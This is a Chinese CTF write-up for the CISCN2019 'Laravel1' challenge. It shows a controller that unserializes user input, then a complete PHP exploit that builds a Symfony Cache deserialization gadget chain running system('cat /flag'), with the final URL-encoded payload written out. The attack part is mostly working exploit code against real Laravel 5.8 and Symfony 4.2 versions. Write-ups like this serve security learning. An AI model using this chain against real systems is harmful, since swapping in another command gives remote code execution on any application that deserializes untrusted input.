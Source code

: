 # \[CISCN2019 总决赛 Day1 Web4]Laravel1

## \[CISCN2019 总决赛 Day1 Web4]Laravel1

## 考点

* Laravel代码审计
* Laravel反序列化链

## wp

给了代码，提示源码在`source.tar.gz`

```php
 <?php
//backup in source.tar.gz

namespace App\Http\Controllers;


class IndexController extends Controller
{
    public function index(\Illuminate\Http\Request $request){
        $payload=$request->input("payload");
        if(empty($payload)){
            highlight_file(__FILE__);
        }else{
            @unserialize($payload);
        }
    }
} 
```

下载源码，是个反序列化漏洞，在`composer.json`看到版本是5.8，还用了`symfony`，版本是4.2



exp

```php
<?php
namespace Symfony\Component\Cache{
    final class CacheItem
    {
        protected $expiry;
        protected $poolHash;
        protected $innerItem;
        public function __construct($expiry, $poolHash, $command)
        {
            $this->expiry = $expiry;
            $this->poolHash = $poolHash;
            $this->innerItem = $command;
        }
    }
}
namespace Symfony\Component\Cache\Adapter{
    class ProxyAdapter
    {
        private $poolHash;
        private $setInnerItem;
        public function __construct($poolHash, $func)
        {
            $this->poolHash = $poolHash;
            $this->setInnerItem = $func;
        }
    }
    class TagAwareAdapter
    {
        private $deferred = [];
        private $pool;
        public function __construct($deferred, $pool)
        {
            $this->deferred = $deferred;
            $this->pool = $pool;
        }
    }
}
namespace {
    $cacheitem = new Symfony\Component\Cache\CacheItem(1,1,"cat /flag");
    $proxyadapter = new Symfony\Component\Cache\Adapter\ProxyAdapter(1,'system');
    $tagawareadapter = new Symfony\Component\Cache\Adapter\TagAwareAdapter(array($cacheitem),$proxyadapter);
    echo urlencode(serialize($tagawareadapter));
}
```

然后访问`?payload=O%3A47%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%22%3A2%3A%7Bs%3A57%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%00deferred%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A33%3A%22Symfony%5CComponent%5CCache%5CCacheItem%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00expiry%22%3Bi%3A1%3Bs%3A11%3A%22%00%2A%00poolHash%22%3Bi%3A1%3Bs%3A12%3A%22%00%2A%00innerItem%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7D%7Ds%3A53%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%00pool%22%3BO%3A44%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%22%3A2%3A%7Bs%3A54%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%00poolHash%22%3Bi%3A1%3Bs%3A58%3A%22%00Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%00setInnerItem%22%3Bs%3A6%3A%22system%22%3B%7D%7D`

可以得到flag

![](<../../.gitbook/assets/image (20).png>)

## 小结

1. [Laravel5.8.x反序列化POP链](https://xz.aliyun.com/t/5911)
2. [Laravel mockery组件反序列化POP链分析](https://xz.aliyun.com/t/5866)
